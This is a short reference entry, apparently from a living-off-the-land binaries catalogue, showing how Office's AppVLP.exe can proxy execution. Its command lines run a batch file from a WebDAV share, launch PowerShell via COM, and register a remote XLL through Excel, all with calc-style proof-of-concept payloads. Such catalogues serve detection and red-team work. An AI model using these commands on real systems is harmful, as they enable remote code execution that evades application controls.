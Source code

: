## Appvlp.exe
* Functions: Execute
```

AppVLP.exe \\webdav\calc.bat
Executes calc.bat through AppVLP.exe

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.

AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
```
   
* Resources:   
  * https://github.com/MoooKitty/Code-Execution
  * https://twitter.com/moo_hax/status/892388990686347264
   
* Full path:   
  * C:\Program Files\Microsoft Office\root\client\appvlp.exe
  * C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
   
* Notes: Thanks to fab - @0rbz_ (No record), Will - @moo_hax (Code Execution)  
   
